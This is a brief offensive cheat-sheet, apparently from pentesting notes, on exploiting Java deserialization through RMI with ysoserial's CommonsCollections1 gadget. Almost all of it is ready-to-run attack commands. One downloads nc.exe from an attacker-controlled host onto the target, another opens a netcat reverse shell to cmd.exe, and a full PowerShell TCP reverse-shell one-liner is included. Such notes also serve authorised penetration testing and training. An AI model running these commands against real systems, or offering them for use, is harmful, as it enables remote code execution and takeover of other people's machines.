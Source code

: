 # Java deserialization

{% embed url="https://github.com/frohoff/ysoserial" %}

## Exploitation

### Deploy payload

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 <command or payload>
```

#### Windows - reverse shell

#### NC upload and reverse shell

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"(new-object System.Net.WebClient).DownloadFile('http://<local ip>/nc.exe','C:\<path>\nc.exe')\""
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "C:\<target folder>\nc.exe -nv <local ip> <local port> -e cmd.exe"
```

#### Powershell

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"$client = New-Object System.Net.Sockets.TCPClient('<local ip>',<local port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\""
```
